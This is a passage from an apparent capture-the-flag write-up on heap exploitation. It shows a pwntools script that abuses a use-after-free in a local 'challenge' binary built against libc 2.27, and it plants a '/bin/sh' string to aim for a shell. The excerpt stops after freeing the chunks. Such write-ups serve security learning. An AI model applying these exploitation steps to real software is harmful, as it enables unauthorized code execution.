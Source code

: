 ### Exploit

Putting it all together, we get the following exploit. Also when I was doing the exploit dev for this one, I'm not sure why but I had some I/O issues. In addition to that, this exploit is dependent on the libc version. So if you have a different libc version, you will need to swap out the libc file in the exploit:

```
from pwn import *

target = process('./challenge')
libc = ELF('./libc-2.27.so')# If you have a different libc version, swap it out here
#gdb.attach(target)

# function to add books
def addBook(size, price, payload):
    target.sendline('1')
    target.sendline(str(size))
    target.send(payload)
    target.sendline(str(price))
    print target.recvuntil('>')

# function to add books with a null byte in it's name
# for some reason, we need to send an additional byte
def addBookSpc(size, price, payload):
  target.sendline("1")
  target.sendline(str(size))
  target.sendline(payload)
  target.sendline("7")
  target.recvuntil(">")

# this is a function to delete books
def deleteBook(index):
    target.sendline('2')
    target.sendline(str(index))
    target.recvuntil('>')

# add a bunch of books to use late with the use after free
addBook(50, 5, "0"*50)
addBook(50, 5, "1"*50)
addBook(50, 5, "2"*50)
addBook(50, 5, "3"*50)
addBook(50, 5, "4"*50)
addBook(50, 5, "5"*50)
addBook(50, 5, "6"*50)
addBookSpc(50, 5, "/bin/sh\x00") # this book will contain the "/bin/sh" string to pass a pointer to free
addBook(50, 5, "8"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "x"*50)
addBook(50, 5, "y"*50)
addBook(50, 5, "9"*50)
addBook(50, 5, "q"*50)


# delete the books, to setup the use after free
deleteBook(0)
deleteBook(1)
deleteBook(2)
deleteBook(3)
deleteBook(4)
deleteBook(5)
deleteBook(6)
deleteBook(7)
```